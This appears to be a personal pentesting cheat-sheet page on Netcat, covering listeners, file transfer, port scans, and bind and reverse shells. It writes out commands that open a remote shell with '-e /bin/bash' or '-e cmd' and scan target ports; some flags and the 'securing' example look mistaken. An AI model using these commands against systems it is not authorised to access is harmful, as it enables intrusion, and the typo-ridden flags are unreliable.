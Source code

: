 ## Netcat

Netcat is an all in one network tool but at the latter is where you will sound most of your time with Netcat. 

##### Setup Listening

	nc -nnvp <port you want to listen on>

-e is huge and will allow a bash shell: you can set up: 

	nc -lvnp <portnumber> -e /bin/bash

Connecting to a Listener

	nc <ipaddress> <port number>

##### Sending Files

From listener 
	nc -lvnp > myfile3 (listening side)

to listener

	nc <target ip address> < myfile


##### Setting up a Bind Shell

Listening on remote computer 

	nc -lnvp 4444 -e cmd

Open session on local computer  

	nc -nv <IP> 4444


##### Reverse Bind Shell

Set up listening on local computer 

	nc -lvnp 4444

remote computer sends a reverse shell by 

	nc -vn <listning IP> 4444 -e /bin/bash

##### Securing Netcat

	nc -lvp 444 -e /bin/bash --allow <onlyoneip> --ssl

##### Port Scanning

Full handshake scan

	nc -nvv -w 1 -z <target ip> <port range>

UDP Scan
UDP scan not requiring a handshake. NOTE STELTH scans are no longer hidden from firewalls.  the -u tells nc to use UDP

	nc -unvv -w 1 -z <target ip> <port range>

Its important to note that UPD scanning can lead to false positives because a firewall may drop the packet. 

Return to [[-README]]
